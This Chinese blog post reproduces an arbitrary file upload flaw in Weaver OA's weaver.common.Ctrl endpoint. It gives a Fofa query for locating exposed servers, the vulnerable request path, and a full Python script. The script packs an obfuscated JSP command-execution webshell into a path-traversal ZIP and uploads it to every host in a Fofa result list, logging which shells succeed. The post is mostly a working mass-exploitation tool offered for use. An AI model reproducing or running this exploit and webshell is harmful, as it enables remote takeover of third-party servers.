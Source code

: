 ```yaml
---
title: 泛微OA weaver.common.Ctrl 任意文件上传漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- 泛微OA
- 漏洞复现
- 文件上传
- 渗透测试
abbrlink: 20282
date: 2021-05-20 14:48:04
keywords:
summary:
img:
password:
---
```




### 声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。d



### 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器



### Fofa

```bash
app="泛微-协同办公OA"
```





### 复现

漏洞路径为：

```bash
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```



查看发送的数据包：

![](http://image.geoer.cn/fwoa_wiershark.jpg)



使用POC成功上传文件：

![](http://image.geoer.cn/fwoa_shell.png)





贴上大佬的批量上传POC脚本(我改过的)：

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)


def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
        with open("success_webshell.txt", "a+") as f2:
            f2.write(GetShellurl + "\n")
    else:
        print('未找到webshell利用失败')

def main():
    # # if (len(sys.argv) == 2):
    # #     url = sys.argv[1]
    #     GetShell(url)
    # else:
    #     print("python3 poc.py http://xx.xx.xx.xx")
    with open("fofa提取结果文件.txt", "r+") as f:
        lines = f.readlines()
        for line in lines:
            try:
                GetShell(line.strip())
            except Exception as e:
                pass


if __name__ == '__main__':
    main()
```

![](http://image.geoer.cn/fwoa-py.png)







参考大佬文章链接：https://mp.weixin.qq.com/s/ePYRFPfu-pvWMKSiffporA



